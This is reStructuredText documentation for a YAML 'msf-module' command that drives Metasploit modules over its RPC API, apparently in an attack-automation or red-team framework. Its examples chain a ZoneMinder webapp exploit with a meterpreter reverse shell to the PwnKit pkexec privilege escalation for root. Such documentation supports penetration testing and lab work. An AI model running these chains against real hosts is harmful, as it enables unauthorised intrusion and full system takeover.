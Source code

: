 .. _msf-module:

==========
msf-module
==========

This command executes Metasploit-Modules via Metasploits RPC-Api.

.. note::

   To configure the connection to the msfrpc-server see :ref:`msf_config`

Some Metasploit-Modules return output. Like the Auxilary-Modules:

.. code-block:: yaml

   commands:
     - type: msf-module
       cmd: auxiliary/scanner/portscan/tcp
       options:
         RHOSTS: 192.42.0.254

Most Exploit-Modules don't create output but instead they create
sessions(see :ref:`msf-session`)

.. code-block:: yaml

   commands:
     - type: msf-module
        cmd: exploit/unix/webapp/zoneminder_snapshots
        creates_session: "foothold"
        options:
          RHOSTS: 192.42.0.254
        payload_options:
          LHOST: 192.42.2.253
        payload: cmd/unix/python/meterpreter/reverse_tcp

.. confval:: cmd

   This option stores the path to the metasploit-module.

   :type: str

   .. note::

     Please note that the path includes the module-type.


.. confval:: target

   This option sets the payload target for the metasploit-module.

   :type: int
   :default: ``0``

.. confval:: creates_session

   A session name that identifies the session that is created by
   the module. This session-name can be used by :ref:`msf-session`

   :type: str

.. confval:: session

   This option is set in exploit['SESSION']. Some modules(post-modules)
   need a session to be executed with.

   :type: str

.. confval:: payload

   Path to a payload for this module.

   :type: str

   The following example illustrates the use of sessions and payloads:

   .. code-block:: yaml

      commands:
        - type: msf-module
           cmd: exploit/unix/webapp/zoneminder_snapshots
           creates_session: "foothold"
           options:
             RHOSTS: 192.42.0.254
           payload_options:
             LHOST: 192.42.2.253
           payload: cmd/unix/python/meterpreter/reverse_tcp

         - type: msf-module
           cmd: exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec
           session: "foothold"
           creates_session: "root"
           options:
             WRITABLE_DIR: "/tmp"
           payload_options:
             LHOST: 192.42.2.253
             LPORT: 4455
           payload: linux/x64/shell/reverse_tcp

.. confval:: options

   Dict(key/values) of module options, like RHOSTS:

   :type: Dict[str,str]

.. confval:: payload_options

   Dict(key/values) of payload options, like LHOST and LPORT:

   :type: Dict[str,str]
